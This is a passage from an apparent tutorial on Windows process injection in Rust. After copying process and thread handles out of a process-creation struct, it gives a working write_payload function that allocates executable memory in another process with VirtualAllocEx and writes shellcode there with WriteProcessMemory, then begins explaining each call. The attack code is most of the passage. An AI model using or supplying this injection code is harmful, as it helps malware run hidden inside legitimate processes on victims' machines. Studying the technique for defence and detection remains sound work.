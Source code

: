 Lastly, the populated fields from the `pi` struct are copied into the variables that will be used further:

```rust
unsafe {*dw_process_id = pi.dwProcessId};
unsafe {*h_process = pi.hProcess as *mut c_void};
unsafe {*h_thread = pi.hThread as *mut c_void};
```

Mainly, the `Process Id`, the `Process Handle` and the `Process Thread` pointers are respectively copied into the variables.

### Write the Payload

```rust

pub fn write_payload(
    h_process: HANDLE,
    p_shellcode: *mut u8,
    s_size_shellcode: usize,
    p_payload_address: *mut *mut u8,
    ) {
    unsafe {
        *p_payload_address = VirtualAllocEx(
            h_process as *mut _,
            null_mut(),
            s_size_shellcode,
            MEM_COMMIT | MEM_RESERVE,
            PAGE_EXECUTE_READWRITE,
        ) as *mut u8;

        let result = WriteProcessMemory(
            h_process as *mut _,
            *p_payload_address as *mut _,
            p_shellcode as *const _,
            s_size_shellcode,
            null_mut(),
        );
    }
}
```

Let's dive deeper into each snippet. The first we find is the `VirtualAllocEx` call that will allocate the space on the thread's memory for our payload.

```rust
*p_payload_address = VirtualAllocEx(
    h_process as *mut _,
    null_mut(),
    s_size_shellcode,
    MEM_COMMIT | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE,
) as *mut u8;
```
